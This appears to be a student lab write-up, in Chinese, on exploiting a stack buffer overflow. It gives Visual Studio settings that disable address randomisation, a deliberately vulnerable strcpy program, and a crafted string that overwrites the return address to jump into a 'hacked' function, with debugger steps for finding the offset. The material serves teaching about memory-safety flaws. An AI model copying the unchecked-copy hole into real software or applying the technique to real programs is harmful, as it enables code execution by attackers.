


# 二进制缓冲区溢出漏洞的利用

## 配置

预配置：按照homework_3进行配置

让程序地址固定：

右键属性->链接器->高级->设置：

1. 基址：0x21300000 (8位$2^8$即32位机)
2. 随机基址：否
3. 固定基址：是FIXED

## 代码

~~~c++
#define _CRT_SECURE_NO_WARNINGS

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int hacked()
{
	printf("hacked!!");
}

int sub(char* x)
{
	char y[10];
	strcpy(y, x);
	return 0;
}

// 213115C9
char *ov = "1234123512361237\xc9\x15\x31\x21";
int main(int argc, char** argv)
{
	if (argc > 1)
		sub(ov);
	printf("exit");
}
~~~

## 寻找冲突位置

先置ov 为 "123412351236123712381239";

在main函数的sub处下断点

* 转到反汇编
* 打开内存
* 打开寄存器

在地址（A）中输入hacked, 看到printf函数里的第一个push语句的地址为0x213115C9，当代码执行到sub函数里的ret语句是，查看栈顶指针esp，其值为12381239，说明接下来会从这个地址执行下一个语句，所以将字符串ov置为"1234123512361237\xc9\x15\x31\x21"（注意：**不能写成\x211239，因为转义符会以为待转义的串是211239**。地址是倒着放着，因为是用栈存放，取出来就是正向的了）就可以在sub函数执行结束后转到hacked函数里的printf语句执行了。

直接点继续，提示：0x38333231 处(位于 CRT.exe 中)引发的异常: 0xC0000005: 执行位置 0x38333231 时发生访问冲突。（这里的38感觉好像是1238里的38）

## 触发过程

将断点下在sub函数的return 0;语句处，调试，转到反汇编

逐过程（F10）执行到ret处，再按F10，下一句直接是hacked函数里的printf函数的第一个push语句，正如我们所期望的那样，正常的函数调用是执行call语句，需要F11单步执行才能到函数内部，但是这里由于栈顶指针的值就是那个push语句的地址，所以直接跳到hacked函数里执行了。

## 总结

通过本次实验，我更加深刻地体验到了溢出漏洞的危害（包括缓冲区溢出和堆溢出），我们可以利用溢出的部分让计算机执行任何我们想让它执行的代码段，如果这种技术被恶意利用，如果被执行的代码段是病毒代码，那后果将不堪设想。
